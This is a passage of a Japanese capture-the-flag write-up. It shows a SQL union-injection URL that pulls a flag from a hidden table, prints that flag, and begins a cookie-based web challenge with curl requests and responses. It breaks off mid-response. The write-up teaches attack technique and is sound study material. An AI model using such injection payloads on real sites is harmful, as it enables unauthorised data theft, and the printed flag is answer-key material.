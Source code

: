 `alien_code.code` という、`information_schema` を除いてひとつだけデータベースが `aliens` でない怪しげなテーブルがあります。`/query?search=olympus_mons%20where%200%20union%20select%20*%20from%20alien_code.code;%23` にアクセスすると以下のような JSON が返ってきました。

```
[["0","pctf{no_intelligent_life_here}"]]
```

フラグが得られました。

```
pctf{no_intelligent_life_here}
```

## [Web 200] Scrambled (64 solves)
> I was scanning through the skies. And missed the static in your eyes. Something blocking your reception. It's distorting our connection. With the distance amplified. Was it all just synthesized? And now the silence screams that you are gone. You've tuned me out. I've lost your frequency.
> 
> (URL)

与えられた URL にアクセスすると、以下のようなレスポンスが返ってきました。

```
$ curl -i http://(省略)
HTTP/1.1 200 OK
Host: (省略)
Date: Thu, 19 Mar 2020 00:18:32 GMT
Connection: close
X-Powered-By: PHP/7.4.2
Set-Cookie: frequency=0; expires=Thu, 19-Mar-2020 00:28:32 GMT; Max-Age=600; path=/
Set-Cookie: transmissions=0; expires=Thu, 19-Mar-2020 00:28:32 GMT; Max-Age=600; path=/
Refresh:0
Content-type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
        <head>
                <meta charset="utf-8"/>
        </head>
        <body style="background-image:url('./back.jpg');background-repeat:none;text-align:center;">
    <button onClick="window.location.reload()" style="position:absolute; bottom:0; left:50%;">Reload</button>
    <iframe width="560" height="315" src="https://www.youtube.com/embed/jE4przMkUqo?autoplay=1" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
        </body>
</html>
```

`frequency` と `transmissions` という Cookie が発行されているようです。保存して送信してみましょう。

```
$ curl -i http://(省略) -b "frequency=0" -b "transmissions=0"
HTTP/1.1 200 OK
Host: (省略)
Date: Thu, 19 Mar 2020 00:19:26 GMT
Connection: close
X-Powered-By: PHP/7.4.2
Set-Cookie: frequency=0; expires=Thu, 19-Mar-2020 00:29:26 GMT; Max-Age=600; path=/
Set-Cookie: transmissions=kxkxkxkxshe%2C44kxkxkxkxsh; expires=Thu, 19-Mar-2020 00:29:26 GMT; Max-Age=600; path=/
Content-type: text/html; charset=UTF-8


<!DOCTYPE html>
<html lang="en">
```
